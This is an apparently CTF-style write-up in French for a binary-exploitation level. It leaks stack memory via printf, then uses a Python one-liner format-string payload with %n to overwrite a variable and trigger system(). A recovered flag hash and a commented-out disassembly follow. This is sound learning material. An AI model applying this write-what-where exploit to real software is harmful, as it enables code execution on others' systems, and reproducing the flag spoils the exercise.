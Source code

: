 ## Démarches

- Comme au level précédent, il est possible d'afficher la mémoire avec l'appel non formaté de printf :
  - Pour trouver où se fait l'écriture des paramètres, on lance `./level4`, puis sur l'entrée standard :
    `AAA0_%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x`
    > AAA0_b7ff26b0.bffff754.b7fd0ff4.00000000.00000000.bffff718.0804848d.bffff510.00000200.b7fd1ac0.b7ff37d0.30414141
    Le 12ème octet affiche `30414141` soit notre chaîne `AAA0` (inversée car little endian)
  
  - Avant l'appel système, une comparaison est faite avec la variable à l'adresse `0x8049810` qui contient *0x1025544* soit *16930116* en décimal
  - Le fgets est limité à 512 caractères, on utilise donc l'option **padding** de printf pour écrire suffisamment de caractères pour obtenir la bonne valeur.
  - `(python -c 'print("\x10\x98\x04\x08"+"%16930112x"+"%12$n")') | ./level4`
    > 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
<br>
----



<!-- - `objdump -d level4`
  ```
    080484a7 <main>:
    80484a7:	55                   	push   %ebp
    80484a8:	89 e5                	mov    %esp,%ebp
    80484aa:	83 e4 f0             	and    $0xfffffff0,%esp
    80484ad:	e8 a5 ff ff ff       	call   8048457 <n>
    80484b2:	c9                   	leave
    80484b3:	c3                   	ret

    08048457 <n>:
    8048457:	55                   	push   %ebp
    8048458:	89 e5                	mov    %esp,%ebp
    804845a:	81 ec 18 02 00 00    	sub    $0x218,%esp
    8048460:	a1 04 98 04 08       	mov    0x8049804,%eax
    8048465:	89 44 24 08          	mov    %eax,0x8(%esp)
    8048469:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    8048470:	00
    8048471:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    8048477:	89 04 24             	mov    %eax,(%esp)
    804847a:	e8 d1 fe ff ff       	call   8048350 <fgets@plt>
    804847f:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    8048485:	89 04 24             	mov    %eax,(%esp)
    8048488:	e8 b7 ff ff ff       	call   8048444 <p>
    804848d:	a1 10 98 04 08       	mov    0x8049810,%eax
    8048492:	3d 44 55 02 01       	cmp    $0x1025544,%eax
    8048497:	75 0c                	jne    80484a5 <n+0x4e>
    8048499:	c7 04 24 90 85 04 08 	movl   $0x8048590,(%esp)
    80484a0:	e8 bb fe ff ff       	call   8048360 <system@plt>
    80484a5:	c9                   	leave
    80484a6:	c3                   	ret

    08048444 <p>:
    8048444:	55                   	push   %ebp
    8048445:	89 e5                	mov    %esp,%ebp
    8048447:	83 ec 18             	sub    $0x18,%esp
    804844a:	8b 45 08             	mov    0x8(%ebp),%eax
    804844d:	89 04 24             	mov    %eax,(%esp)
    8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
    8048455:	c9                   	leave
    8048456:	c3                   	ret
  ``` -->

